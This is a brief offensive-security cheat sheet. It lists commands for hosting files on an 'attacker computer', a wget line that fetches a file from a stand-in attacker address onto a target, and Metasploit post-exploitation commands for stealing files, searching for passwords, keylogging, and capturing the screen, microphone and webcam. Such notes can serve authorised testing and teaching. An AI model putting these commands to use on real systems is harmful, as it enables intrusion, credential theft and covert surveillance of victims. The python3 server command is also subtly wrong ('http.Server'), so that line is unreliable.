 # Linux

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |
